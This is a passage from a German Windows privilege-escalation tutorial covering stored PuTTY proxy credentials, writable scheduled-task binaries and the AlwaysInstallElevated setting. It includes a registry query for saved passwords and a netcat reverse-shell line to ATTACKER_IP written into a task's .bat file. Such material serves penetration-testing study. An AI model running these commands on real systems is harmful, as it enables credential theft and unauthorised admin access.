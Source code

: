 Um die gespeicherten Proxy-Zugangsdaten abzurufen, kann man mit dem folgenden Befehl unter dem folgenden Registrierungsschlüssel nach ProxyPassword suchen:
```
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```


## Andere Schnelle Siege

### Scheduled Tasks
Wenn man sich die geplanten Aufgaben auf dem Zielsystem ansieht, sieht man vielleicht eine geplante Aufgabe, die entweder ihre Binärdatei verloren hat oder eine Binärdatei verwendet, die man ändern kann. Geplante Aufgaben können über die Befehlszeile mit dem Befehl `schtasks` ohne Optionen aufgelistet werden. Um detaillierte Informationen über einen der Dienste abzurufen, kann man einen Befehl wie den folgenden verwenden:

```
schtasks /query /tn vulntask /fo list /v
```

Man erhält viele Informationen über die Task, aber was für uns wichtig ist, ist der Parameter „Task to Run“, der angibt, was von der geplanten Task ausgeführt werden soll, und der Parameter „Run As User“, der den Benutzer angibt, der für die Ausführung der Task verwendet werden soll.

  Wenn unser aktueller Benutzer die ausführbare Datei „Task to Run“ ändern oder überschreiben kann, können wir kontrollieren, was von dem Benutzer *Beispielnutzer* ausgeführt wird, was zu einer einfachen Privilegienerweiterung führt. Um die Dateiberechtigungen für die ausführbare Datei zu überprüfen, verwenden wir icacls:
```
  icacls c:\tasks\schtask.bat
```
Wie im Ergebnis zu sehen ist, hat die Gruppe BUILTIN\Users vollen Zugriff (F) auf die Binärdatei der Aufgabe. Das bedeutet, dass wir die .bat-Datei ändern und jede beliebige Payload einfügen können.  Praktischer Weise kann auf dem Besipiel gerät unter C:\tools Net Cat gefunden werden und wir können so eine Reverse Shell in die Task einbauen via:
```
echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
```
Die Reverse Shell die dadurch gespawnt wird hat dann entsprefchende admin rechte.

###  AlwaysInstallElevated

Windows-Installationsdateien (auch als .msi-Dateien bekannt) werden verwendet, um Anwendungen auf dem System zu installieren. Sie werden normalerweise mit der Berechtigungsstufe des Benutzers ausgeführt, der sie startet. Sie können jedoch so konfiguriert werden, dass sie von jedem Benutzerkonto (auch von einem nicht privilegierten) mit höheren Rechten ausgeführt werden. Auf diese Weise könnte es möglich sein, eine bösartige MSI-Datei zu erzeugen, die mit Administrator-Rechten ausgeführt wird.

Für diese Methode müssen zwei Registry-Werte gesetzt werden. Sie können diese über die Befehlszeile mit den folgenden Befehlen abfragen.
```
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer 
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```
  